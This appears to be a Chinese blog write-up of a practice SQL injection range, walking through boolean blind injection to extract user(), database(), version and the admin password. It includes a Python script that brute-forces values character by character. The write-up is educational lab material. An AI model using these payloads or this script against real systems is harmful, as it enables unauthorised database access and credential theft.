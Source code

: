 ```yaml
---
title: 记一次用Python挑战SQL注入
date: 2020-04-13
tags:
	- Python
	- 渗透测试
---
```

## 前言
- 最近哥们给我分享了一个靶场地址，疫情在家闲着无聊便拿来挑战一下。
- [靶场地址](https://hack.zkaq.cn/)
## 分析
- 可以看到，题目要求是拿到管理员密码即可。
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200413171506664.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDM3MTg0Mg==,size_16,color_FFFFFF,t_70)

- 再进入靶机页面瞅瞅，看来就是要在url上操作了
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200413171823314.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDM3MTg0Mg==,size_16,color_FFFFFF,t_70)
- 简单加一个and 1=1和and 1=2，发现1=1时，显示下面的猫舍介绍，1=2时，不显示猫舍介绍。这个变化就作为分辨依据。
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200413174244815.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDM3MTg0Mg==,size_16,color_FFFFFF,t_70)

## 开始挑战
### 先拿一手user()（此时我已经忘记题目要求要拿管理员密码。。。。。）
##### 先拿user()长度
- 先and char_length(user())>0，OK
- 再and char_length(user()>100),ERROR
- 。。。。。。（中间省略，自己慢慢试）
- 就这样把user()的长度试了出来，16。
##### 长度出来，试字段
- 用and ASCII(mid(user(),1,1))>0，试出来后查表转换为字符
- 然后我们用python（不要问我为啥突然用python，试了8个字符后，手都试酸了。。。T0T）
- 上代码（代码不能直接用啊，自己简单分析一下，根据自己要获取的内容改一下，再补全IP就能用了）

```python
import re,requests

result = []
string = []
for j in range(1,17):	#循环第几个字符
    for i in range(97,123):	#从ASCII码表的第几到几开始试，试全部可能会慢很多
        #url = 'http://117.167.*.*:10180/index.php?id=1%20and%20(select%20ascii(mid(password,'+str(j)+',1))%20from%20admin)='+str(i) #找password时候用的
        #url = 'http://117.167.*.*:10180/index.php?id=1'+'and ASCII(mid(1,1))='+str(i)
        url = 'http://117.167.*.*:10180/index.php?id=1%20and%20ASCII(mid(user(),'+str(j)+',1))='+str(i)
        res = requests.get(url)
        res.encoding = 'utf8'
        if("猫舍介绍" in res.text):#判断返回的是OK还是ERROR
            print(str(j)+'是'+str(i))
            result.append(str(j)+':'+str(i))
            string.append(str(j)+':'+chr(i)) #将得到的编码自动转换成字符
            break
        else:
            print('不是'+str(i))

print(result)
print(string)
```
- 程序运行完之后记得查看输出结果是否有没试出来的字符，可以换个区间重新试一下或者自己手动试。

### 同理再拿一手database()
- maoshe
### 再拿一手version()
- 5.5.53
### 再拿一手hostname
- gongksik_d45fb6
### 再拿一手。。。。。。
### 哎，我到底要拿啥来着，哦对，管理员密码
#### 先找表
- 先随便试一下有没有admin表，and (select count(*) from admin)>0，Woc！！！还真有！
- 再随便试一下有没有password字段，and(select count(password) from admin)>0，Woc！！！又有！
- 这里博主走了点狗屎运，读者请勿模仿，自行一个个猜哈~
- 接下来就简单了，用上上面的python代码
- 注入标记改为(select ASSII(mid(password,1,1)))>0
- 然后就得到了管理员密码——（自己试去，┑(￣▽ ￣)┍）
### 接下来最重要的步骤——登录MySQL系统
- 等好久都不成功，才想起我们的目标只是拿到管理员密码。。。。。
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200413180149362.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDM3MTg0Mg==,size_16,color_FFFFFF,t_70)
## 后记
- 本次SQL注入到此结束，还愣着干啥，点赞关注走一走啊。。。。（￣︶￣）↗
